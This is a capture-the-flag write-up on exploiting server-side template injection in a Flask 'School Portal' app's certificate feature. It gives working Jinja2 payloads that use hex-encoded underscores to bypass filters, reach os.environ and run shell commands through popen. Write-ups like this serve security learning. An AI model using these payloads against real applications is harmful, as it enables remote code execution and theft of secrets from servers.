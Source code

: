 # School Portal - Server-Side Template Injection (SSTI) Writeup

## Challenge Overview
The School Portal challenge involves exploiting a Server-Side Template Injection (SSTI) vulnerability in a Flask web application to retrieve a flag stored as an environment variable.

## Initial Reconnaissance

### Application Analysis
Upon accessing the application, we discover a school portal system with the following features:
- User registration and authentication
- Dashboard functionality
- Certificate generation system

![Home Page](home_page.png)
*Initial landing page of the School Portal*

![Registration](registeration.png)
*User registration form*

![Dashboard](dashboard.png)
*User dashboard interface*

## Vulnerability Discovery

### Certificate Generation Feature
The application includes a certificate generation feature that appears to accept the certificate name . This is often a prime target for template injection attacks.

![Certificate Generation Form](certificate_generation.png)
*Certificate generation*

### SSTI Detection and Testing
During testing of the certificate generation functionality, we started with a basic SSTI detection payload to see if the application processes user input through a template engine.

**Initial Test Payload:** `{{7*7}}`

![Further SSTI Testing](trying_ssti.png)
*Initial Test Payload*

![Generated Certificate with SSTI Test](generated_certificate.png)
*Result of the payload - Notice the output shows "49" indicating successful template injection*

The successful execution of the mathematical expression `{{7*7}}` returning `49` confirms that the application is vulnerable to Server-Side Template Injection, likely using Jinja2 template engine based on Flask framework indicators.

## Exploitation Process

### Step 1: Environment Variable Enumeration
Since CTF flags are commonly stored as environment variables, we crafted a payload to access the application's environment:

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('environ')}}
```

**Payload Breakdown:**
- `request|attr('application')` - Access the Flask application object
- `attr('\x5f\x5fglobals\x5f\x5f')` - Access global variables (encoded `__globals__`)
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')` - Get builtins module
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')` - Import os module
- `attr('environ')` - Access environment variables

**Note:** Hex encoding (`\x5f`) is used to bypass potential filters that might block `__` sequences.

![Environment Variables](get env vraiables.png)
*Environment variable enumeration results showing available environment variables*

### Step 2: Flag Extraction Optimization
The initial payload revealed environment variables but the flag output was truncated. To properly extract the complete flag, we refined our approach:

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('echo $FLAG_00_This_real | fold -w 50')|attr('read')()}}
```

**Payload Improvements:**
- `attr('popen')('echo $FLAG_00_This_real | fold -w 50')` - Execute shell command to echo the flag
- `fold -w 50` - Format output with line breaks every 50 characters for better readability
- `attr('read')()` - Read the command output

![Flag Extraction](flag.png)
*Successfully extracted flag using the optimized SSTI payload*

## Flag
The flag was successfully extracted using the optimized SSTI payload.


## Difficulty: Easy
This challenge demonstrates the importance of secure template handling and the risks associated with Server-Side Template Injection vulnerabilities.
